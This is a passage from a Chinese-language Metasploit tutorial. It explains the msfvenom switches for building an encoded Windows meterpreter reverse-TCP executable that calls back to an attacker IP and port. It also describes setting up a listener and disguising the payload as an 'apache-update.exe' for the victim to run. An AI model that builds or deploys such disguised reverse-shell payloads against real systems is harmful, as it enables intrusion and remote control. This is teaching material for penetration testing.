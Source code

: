 现在我们已经熟悉了`msfvenom`实用程序支持的所有有效载荷、编码器、格式和平台，让我们尝试生成一个示例有效载荷，如下面的屏幕截图所示：

![](img/9014fdb6-b1c9-4c40-a5fd-50ed1cd45567.jpg)

以下表格显示了在前述`msfvenom`命令中使用的每个命令开关的详细说明：

| **开关** | **说明** |
| --- | --- |
| `-a x86` | 这里，生成的有效载荷将在 x86 架构上运行 |
| `--platform windows` | 这里，生成的有效载荷针对 Windows 平台 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效载荷是带有反向 TCP 的 meterpreter |
| `LHOST= 192.168.44.134` | 这里，攻击者系统的 IP 地址是`192.168.44.134` |
| `LPORT= 8080` | 这里，攻击者系统上监听的端口号是`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式是`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是生成的有效载荷将保存的路径 |

一旦我们生成了一个载荷，我们需要设置一个监听器，一旦在目标系统上执行了载荷，它将接受反向连接。以下命令将在 IP 地址`192.168.44.134`上的端口`8080`上启动一个 meterpreter 监听器：

[PRE1]

![](img/61aaa5da-67dc-4c3f-999a-ebce60a4f57f.jpg)

现在，我们已将载荷伪装成 Apache 更新发送给了我们的受害者。受害者需要执行它以完成利用：
